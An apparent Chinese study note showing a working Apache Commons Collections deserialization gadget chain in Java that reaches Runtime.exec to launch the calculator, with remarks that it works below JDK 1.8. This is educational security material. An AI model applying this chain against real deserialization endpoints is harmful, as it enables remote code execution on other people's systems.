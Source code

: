 ```java

import com.ctfjava.enity.User;
import com.ctfjava.util.SerializeUtil;
import org.apache.commons.collections.Transformer;
import org.apache.commons.collections.functors.ChainedTransformer;
import org.apache.commons.collections.functors.ConstantTransformer;
import org.apache.commons.collections.functors.InvokerTransformer;
import org.apache.commons.collections.map.TransformedMap;

import java.lang.annotation.Target;
import java.lang.reflect.Constructor;
import java.lang.reflect.InvocationTargetException;
import java.util.HashMap;
import java.util.Map;
public class TestCC {
    public static void main(String[] args) throws ClassNotFoundException, NoSuchMethodException, InvocationTargetException, InstantiationException, IllegalAccessException {
        //php的伪协议  接口
        //Transformer transformer;
        //常量转换器，无论输入如何对象返回固定在
        ConstantTransformer constantTransformer=new ConstantTransformer(Runtime.getRuntime());
        Object o=constantTransformer.transform(new User());
        System.out.println(o);  //java.lang.Runtime@45ee12a7
        //反射
        InvokerTransformer invokerTransformer=new InvokerTransformer("exec",new Class[]{String.class},new Object[]{"calc"});
        ChainedTransformer chainedTransformer=new ChainedTransformer(new Transformer[]{constantTransformer,invokerTransformer});
        //        chainedTransformer.transform("ctfjava");
        HashMap hashMap=new HashMap();
        Map transformedMap=TransformedMap.decorate(hashMap,null,chainedTransformer);
        transformedMap.put("value","test");
        //        System.out.println(transformedMap.get("value"));
        Class cl = Class.forName("sun.reflect.annotation.AnnotationInvocationHandler");
        Constructor ctor = cl.getDeclaredConstructor(Class.class, Map.class);
        ctor.setAccessible(true);
        Object instance=ctor.newInstance(Target.class, transformedMap);
        SerializeUtil c1=new SerializeUtil();
        byte[] data=c1.serialize(instance);
        c1.unSerialize(data);
    }
}
```
![image.png](https://cdn.nlark.com/yuque/0/2024/png/22994699/1714467358036-d9315f3a-952c-43a4-8423-13eb4b497105.png#averageHue=%232e3337&clientId=u3934e6f0-2b81-4&from=paste&height=296&id=u692db9fd&originHeight=1376&originWidth=2125&originalType=binary&ratio=2.200000047683716&rotation=0&showTitle=false&size=411474&status=done&style=none&taskId=uff380808-8276-4669-b6de-9a668fc9685&title=&width=456.8053894042969)
成功弹出计算器
注意：这个利用这个方法只能在jdk1.7版本以下，jdk1.8+就没有了
